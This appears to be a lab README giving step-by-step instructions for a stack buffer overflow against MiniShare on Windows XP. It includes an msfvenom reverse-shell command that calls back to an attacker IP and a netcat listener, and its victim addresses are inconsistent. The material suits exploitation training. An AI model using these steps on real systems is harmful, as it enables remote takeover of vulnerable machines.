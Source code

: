 # buffer_overflow_winXP
Tool : Virtual Machine WinXP, Immunity Debugger, Minishare
The Guideline for Buffer Overflow Attack 

Kali Linux: attacker (192.168.37.128) | Windows XP: victim (192.168.37.134)
--------------------------------------------------------------------------------------------------
-Step1: (Windows), open Minishare, Immunity Debugger/Attach/Minishare
(if needed Immunity Debugger/Debug/Restart (Yes), /Play)

-Step2: (Kali), python mini-1.py 192.168.230.170
check: EIP 41414141

-Step3: (Kali, generate pattern for checking offset value of ESP) 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
Copy the pattern to mini-2.py

-Step4: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-2.py 192.168.230.170
check: ESP Ch7Ch8Ch9 ...
check: EIP 36684335

-Step5: (Kali, check the offset)
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 36684335
Exact match at offset 1787
Edit mini-3.py

-Step6: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-3.py 192.168.230.170
Check: ESP "CCC ...
Check: EIP 42424242
Add badchars to mini-4.py

-Step7: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-4.py 192.168.230.170
Click ESP, right click/ Follow in Dump, check Hex Dump: 01 02 03 ... 0C 0D 0E ...
Edit mini-5.py, remove the value \x0d

-Step8: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-5.py 192.168.230.170
Click ESP, right click/Follow in Dump, check Hex Dump: don't see 0D

-Step9: Immunity Debugger/Debug/Restart (Yes)
/View/log, click USER32.dll -> click "e" on the tool bar, double click USER32.dll/right click/Search for/Command: JMP ESP, remember the address value 7E429353 that is added value to mini-6.py

-Step10: (Kali, create a shellcode) msfvenom -p windows/shell_reverse_tcp lhost=192.168.37.128 lport=443 -b "\x00\x0d" -f c -e x86/shikata_ga_nai
Add the shellcode to mini-6.py, remove the badchars.

-Step11: (Kali) nc -lvp 443

-Step12: Exit Immunity Debugger. Open Minishare.
python mini-6.py 192.168.230.170
(Kali) At the terminal running nc -lvp 443 dumps the terminal of Windows XP (for example: C:\Documents and Settings\victim\Desktop\MiniShare>). Now, you can run commands for remote control.
                                                                                             
